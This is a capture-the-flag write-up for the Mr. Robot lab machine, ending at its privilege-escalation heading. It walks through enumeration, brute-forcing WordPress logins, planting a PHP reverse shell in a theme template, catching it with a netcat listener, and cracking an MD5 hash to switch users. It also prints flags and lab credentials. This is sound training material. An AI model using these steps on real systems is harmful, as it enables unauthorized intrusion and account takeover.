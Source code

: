 # My writeup for MR. ROBOT machine
Let's get started with nmap scan. I found three ports open for ssh, http, https

![nmap](https://github.com/moataz-bellah/writeups/assets/47069499/12744873-28e5-4421-a54b-483987e7d9db)
# Enumerate the website on port 80
When i explore a webiste i always start with /robots.txt to see unwanted paths

![robots](https://github.com/moataz-bellah/writeups/assets/47069499/4fafa00f-d27f-45c4-b6c4-d03ed1b97a38)
Here we it is, we found flag 1 and an interesting file "fsosity.dic"
Going to /key-1-of-3.txt and we have flag 1 073403c8a58a1f80d943455fb30724b9
![flag1](https://github.com/moataz-bellah/writeups/assets/47069499/035767d7-e45d-4ac7-a2c8-fa83cc9ed8aa)
Let's check fsosity.dic later and continue enumeration. I did directory busting
```
sudo dirb http://192.168.0.105
```
I a lot of directories but i want to focus on three directories
```
http://192.168.0.105/0/
http://192.168.0.105/wp-admin/login
http://192.168.0.105/admin/robot
```
As we see it is a wordpress app. I went to /0/ and found a normal page has nothing to look for, so let's move to /wp-admin/login
First thing i tried is login with default credentials of wordpress but i didn't work. However i noticed somthing interesting.
![invalid_username](https://github.com/moataz-bellah/writeups/assets/47069499/d629ec5e-da2c-4333-bbc5-187baaaf0668)
As we see it tells me invalid username which means that page has poor validation. We can take advantage of that and brute force the username
and password. Back to fsocity.dic and explore it.
```
sort fsocity.dic | uniq > wordlist
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```
It has random words it seems to be a dictionary of usernames or passwords
I checked to wordcount of the file
```
cat fsocity.dic | wc -l
858160
```
Let's see if that file has duplicates
```
sort fsocity.dic | uniq | wc -l
11451
```
As we see, we have a lot of duplicates. I created a new instance of that file without duplicates 
```
sort fsocity.dic | uniq > wordlist
```
Now we have a wordlist, let' see if it has username or password we can use to login.
Back to the login page, i tried a random username "elliot" and i was lucky.
![login](https://github.com/moataz-bellah/writeups/assets/47069499/e7c29d49-c17d-4369-a790-bddd6c0ced75)
That tells us the username we entered is correct and we just need to brute force the password
I wrote a python script to brute force the username and password
- Script to brute force username
![username_script](https://github.com/moataz-bellah/writeups/assets/47069499/3d325f5f-9a0e-4c51-89e0-1fe1b4dd175f)
- Script to brute force password
![password_script2](https://github.com/moataz-bellah/writeups/assets/47069499/877e92cf-5bb8-44f4-b2bd-c659336ed281)
After running the scripts we have the username: "elliot" and password: "ER28-0652". Let's login using these credentials
![dashboard](https://github.com/moataz-bellah/writeups/assets/47069499/cf3bfb4c-a19f-46e6-bd63-86ac486f31cd)
I was exploring the dashboard trying to find anything useful but i didn't. So i did some research about ideas to get reverse shell in wordpress
and i found that great resourse https://www.hackingarticles.in/wordpress-reverse-shell/
According to that link i went to appearance, then editor.
![reverse_shell2](https://github.com/moataz-bellah/writeups/assets/47069499/a02ef163-13f2-4bfd-b7a7-3beed04d069f)
1: I looked for a php reverse shell online, and i put it inside the editor

2: Changed templates to 404 Template  

![reverse_shell](https://github.com/moataz-bellah/writeups/assets/47069499/20358daa-4e05-4470-85dd-b509e78c95ed)

3: Update File  

To get reverse shell we need to visit http://192.168.0.105/wp-content/themes/twentyfifteen/404.php. But before that we need to
listen to any incoming connection
```
sudo nc -nvlp 4444
```
Now we execute the shell by visiting /wp-content/themes/twentyfifteen/404.php, and yeah we got a shell
![shell](https://github.com/moataz-bellah/writeups/assets/47069499/f21a4844-6fae-4b19-82ef-4b642bab8eb8)
Let's switch to pty
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
Our current user is daemon. Let's visit /home
```
cd /home
ls
robot
```
See what inside robot
```
ls robot
key-2-of-3.txt  password.raw-md5
```
We have flag 2 but our user doesn't have permission to open, so we need to switch to robot user. Look we have interesting file password.raw-md5
```
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
We have a username and a hashed password. Let's try to crack that hash. I tried that website and it worked https://crackstation.net/
and that is the cracked hash is abcdefghijklmnopqrstuvwxyz. Let's switch to robot using that password
```
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$
```
Yeah we are robot, and now we can read flag 2 
```
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
# Privilege Escalation
